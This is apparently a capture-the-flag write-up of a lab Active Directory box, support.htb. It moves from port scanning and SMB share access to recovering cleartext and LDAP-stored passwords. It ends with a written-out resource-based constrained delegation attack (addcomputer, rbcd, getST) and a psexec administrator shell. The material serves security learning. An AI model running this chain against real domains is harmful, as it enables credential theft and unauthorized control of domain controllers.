 # Enumeration
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-13 15:17:21Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-03-13T15:17:24
|_  start_date: N/A
|_clock-skew: -22h27m54s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```
Enumerating smb with `smbmap -u guest -H dc.support.htb`
![](attachment/0eaa4c96ba9cc6c495d72e7a3b23f2c1.png)
We access the share with `smbclient \\\\dc.support.htb\\support-tools -N --no-pass`
![](attachment/1e4e24d5e0634cb95cc0acccac485a00.png)
Found an unusual app called UserInfo.exe so using mono to run it:
![](attachment/0a59824e486b625a5f1c069d6492d0ec.png)
![](attachment/b7b10ace6a12bcb93b670ed4c5431082.png)
Using wireshark to sniff the packets or can use DNSpy as it is a .NET application we find:
![](attachment/0596661da7b2ef0dc532acb477335171.png)
Following to TCP stream:
![](attachment/40a14c2895e1383b1292a0046e31c265.png)
This appears to be a cleartext password for a user called ldap
Trying the password with 
```
cme smb 10.10.11.174 -u ldap -p "$nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz"  
```
It doesnt work![](attachment/32b86ba267b37d2b66156fd739dfecfc.png)
But using single quotes and removing "$" makes it work.
![](attachment/f9ae5235e9d403f553c4af5f1971f6e8.png)
Now using bloodhound to collect info
```
bloodhound.py -dns-tcp -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -ns 10.10.11.174 -d support.htb -c all
```
We find almost nothing of value but the *support* user looks interesting

Now using ldapsearch 
```
ldapsearch  -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" -H ldap://support.htb > ldap.out
```
Now checking the info field in ldapsearch we find password for support:![](attachment/3f4567f9d3d91506e4601a7d98ace517.png)
support:Ironside47pleasure40Watchful`

Now we attack with the genericAll permission:
Creating a machine account:
`addcomputer.py -method SAMR -computer-name 'aditya' -computer-pass 'Aditya123@' -dc-host dc.support.htb -domain-netbios support.htb 'support.htb/support:Ironside47pleasure40Watchful'`
Delegation from aditya to dc:
`rbcd.py -delegate-from 'aditya$' -delegate-to 'dc$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'`
Now getting the ticket:
`getST.py -spn 'www/dc.support.htb' -impersonate administrator 'support.htb/aditya$:Aditya123@'`
Now to get a shell:
`KRB5CCNAME=administrator.ccache psexec.py -dc-ip 10.10.11.174 support.htb/administrator@dc.support.htb -k -no-pass`
![](attachment/6371698950c7a8efc5e46d6acb5c551a.png)
